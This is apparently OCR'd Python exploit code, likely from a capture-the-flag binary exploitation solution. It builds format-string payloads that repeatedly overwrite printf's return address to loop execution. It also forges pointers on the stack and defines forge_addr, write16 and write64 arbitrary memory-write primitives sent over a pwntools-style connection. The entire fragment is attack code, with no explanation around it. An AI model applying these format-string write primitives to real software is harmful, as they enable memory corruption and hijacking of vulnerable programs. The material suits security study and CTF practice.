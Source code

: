 ```python
# Setup pointers table

for i in range(4):
    env_ptr_partial = (env_base + 8 * (i + 1)) & 0xffff
    target = (0x30 - (env_ptr_partial & 0xff)) & 0xff
    fmt = '%c'*(ENV_PIVOT_OFFSET - 2) + f'%{env_ptr_partial - (ENV_PIVOT_OFFSET - 2)}c' + '%hn'
    # We still have to overwrite the printf return address to loop again
    fmt += f'%{target}c%{RET_ADDR_OFFSET}$hhn'

    r.sendline(fmt)

    # ENV_PIVOT_OFFSET -> &WHERE_TABLE[i]

    forge_ptr_partial = (env_base + 8*5 + 2*i) & 0xffff
    target = 0x30

    fmt = '%c'*(RET_ADDR_OFFSET - 2) + f'%{target - (RET_ADDR_OFFSET - 2)}c' + '%hhn'
    fmt += f'%{forge_ptr_partial - target}c%{WHERE_PTR_OFFSET}$hn'

    r.sendline(fmt)
    
FORGE_PTR_OFFSET = 50
ARBWRITE_PTR_OFFSET = 54

# Allows us to create an arbitrary address at offset 54
def forge_addr(where):
    for i in range(4):
        # We still have to overwrite the printf return address to loop again
        target = 0x30
        where_part = (((where >> 16*i) & 0xffff) - target) & 0xffff
        fmt = '%c'*(RET_ADDR_OFFSET - 2) + f'%{target - (RET_ADDR_OFFSET - 2)}c' + '%hhn'
        fmt += f'%{where_part}c%{FORGE_PTR_OFFSET + i}$hn'

        r.sendline(fmt)
      
# Arbitrary Write (1 word) primitive
def write16(where, what):
    what &= 0xffff

    forge_addr(where)

    target = 0x30
    target_what = (what - target) & 0xffff

    fmt = '%c'*(RET_ADDR_OFFSET - 2) + f'%{target - (RET_ADDR_OFFSET - 2)}c' + '%hhn'
    fmt += f'%{target_what}c%{ARBWRITE_PTR_OFFSET}$hn'

    r.sendline(fmt)

# Arbitrary Write (1 qword) primitive
def write64(where, what):
    for i in range(4):
        write16(where + 2*i, (what >> 16*i) & 0xffff)
```

